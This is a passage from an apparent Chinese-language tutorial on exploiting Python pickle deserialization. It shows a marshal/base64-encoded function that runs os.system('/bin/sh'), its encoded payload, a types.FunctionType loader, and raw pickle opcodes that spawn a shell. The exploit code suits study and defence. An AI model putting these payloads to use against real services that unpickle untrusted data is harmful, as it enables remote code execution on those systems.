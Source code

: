 ![image-20210809094914448](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210809094914448.png)

但也不是绝路一条，**Marshal**可以让这段代码序列化

```python
# py2
import marshal
import base64

def foo():
    import os
    def fib(n):
        if n <= 1:
            return n
        return fib(n-1) + fib(n-2)
    print 'fib(10) =', fib(10)
    os.system('/bin/sh')

code_serialized = base64.b64encode(marshal.dumps(foo.func_code))
print code_serialized
# YwAAAAABAAAAAgAAAAMAAABzOwAAAGQBAGQAAGwAAH0AAIcAAGYBAGQCAIYAAIkAAGQDAEeIAABkBACDAQBHSHwAAGoBAGQFAIMBAAFkAABTKAYAAABOaf////9jAQAAAAEAAAAEAAAAEwAAAHMsAAAAfAAAZAEAawEAchAAfAAAU4gAAHwAAGQBABiDAQCIAAB8AABkAgAYgwEAF1MoAwAAAE5pAQAAAGkCAAAAKAAAAAAoAQAAAHQBAAAAbigBAAAAdAMAAABmaWIoAAAAAHMFAAAAdTIucHlSAQAAAAUAAABzBgAAAAABDAEEAXMIAAAAZmliKDEwKT1pCgAAAHMHAAAAL2Jpbi9zaCgCAAAAdAIAAABvc3QGAAAAc3lzdGVtKAEAAABSAgAAACgAAAAAKAEAAABSAQAAAHMFAAAAdTIucHl0AwAAAGZvbwMAAABzCAAAAAABDAEPBA8B
```

现在得到了序列化的字符串，我们希望它被反序列化时执行，但是直接将他放入`__reduce__`返回部分似乎并不可以，`__reduce__`是调用callable来执行参数之类的，而我们构造好的本身就是callable，希望它执行而不是作为另一个callable的参数；这时就需要直接从PVM操作码的层级进行构造了。

————其实我觉得更通俗的理解是这样可以不把要执行的代码限制在`return (os.system,(a,))`这样式的框架中，而是可以自由的执行代码，或者说就是另一种形式的pker

我们需要执行的其实是（利用到python oop的特性，通过`types.FunctionTyle(func_code,globals(),’’)()`来动态地创建匿名函数，参见：[官方文档](https://docs.python.org/zh-cn/3/library/types.html#module-types)）

```python
(types.FunctionType(marshal.loads(base64.b64decode(code_enc)), globals(), ''))()
```

或者更可读一些

```python
code_str = base64.b64decode(code_enc)
code = marshal.loads(code_str)
func = types.FunctionType(code, globals(), '')
func()
```

接下来就是手动构造opcode的时候了，回想之前返回一个简单的shell时的opcode

```python
cos
system
(S'/bin/sh'
tR.
```
